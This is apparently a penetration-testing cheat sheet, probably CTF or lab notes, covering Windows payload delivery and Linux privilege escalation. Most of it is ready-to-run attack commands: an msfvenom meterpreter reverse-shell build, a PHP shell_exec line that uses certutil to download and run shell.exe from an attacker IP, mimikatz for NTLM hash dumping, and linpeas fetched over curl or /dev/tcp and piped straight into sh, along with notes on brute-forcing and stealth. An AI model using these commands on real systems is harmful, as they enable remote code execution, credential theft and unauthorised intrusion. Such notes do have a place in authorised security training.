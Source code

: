 ### Windows

php

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe > shell.exe
shell_exec("cmd.exe /C certutil.exe -urlcache -split -f http://<ip>/shell.exe shell.exe & shell.exe
```
Note :

```bash
certutil.exe -urlcache -split -f <url of file> <location to save file> 
```
dump windows NTLM hash

```bash
mimikatz.exe
```

## Privilege Escalation

### Linpeas

```txt
linpeas.sh

- -a (all checks) - This will execute also the check of processes during 1 min, will search more possible hashes inside files, and brute-force each user using su with the top2000 passwords.
- -s (superfast & stealth) - This will bypass some time consuming checks - Stealth mode (Nothing will be written to disk)
- -P (Password) - Pass a password that will be used with sudo -l and bruteforcing other users
```

#### Local network

```txt
sudo python -m SimpleHTTPServer 8080
curl 10.10.10.10/linpeas.sh -output linpeas.sh
curl 10.10.10.10/linpeas.sh | sh
```

#### Without curl

```txt
sudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh
```

#### Output to file

```txt
linpeas -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt #Read with colors
```

### Lxd Privilege Escalation
